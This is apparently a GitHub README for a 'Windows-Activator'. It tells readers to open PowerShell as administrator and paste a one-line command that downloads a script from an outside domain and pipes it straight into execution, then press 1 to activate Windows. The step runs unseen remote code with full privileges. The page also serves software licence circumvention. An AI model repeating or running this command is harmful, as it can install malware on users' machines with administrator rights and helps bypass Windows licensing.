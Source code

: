 # Windows-Activator


1. open powershell in administrator and type " irm https://getactivation.exitcorporation.store | iex "

 ![image](https://github.com/user-attachments/assets/576e5fbc-fc6b-492e-8bee-d001d098b392)

2. After this press " 1 " For Windows Activation

![image](https://github.com/user-attachments/assets/9068e3c9-76b9-416a-8c65-b8501ab2b84a)


  
